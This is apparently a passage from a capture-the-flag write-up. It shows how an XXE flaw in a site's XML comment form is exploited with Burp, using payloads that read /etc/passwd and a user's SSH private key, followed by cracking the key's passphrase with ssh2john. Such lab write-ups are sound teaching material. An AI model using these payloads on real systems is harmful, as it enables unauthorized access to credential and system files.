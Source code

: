 ```xml
</comment>   
```

This looks like the xml used by the website to add comments, it seems we are going to exploit an XXE vulnerability.

Let's add a comment and intercept the request with `burp`.

![](8.png)

Now replace the xml value with the following payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

![](10.png)

Got it.

URL encode the payload by selecting it and pressing `ctrl + u` then send the request.

![](9.png)

Great! We confirmed the XXE vulnerability, now let's get barry's ssh private key.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

![](10.png)

# **Foothold**

Let's copy the key to our machine, give it the right permission and connect with it.

![](11.png)

The key is protected with a password so we used `ssh2john` to get a hash for that password and then cracked it to get the password.

# **Privilege Escalation**

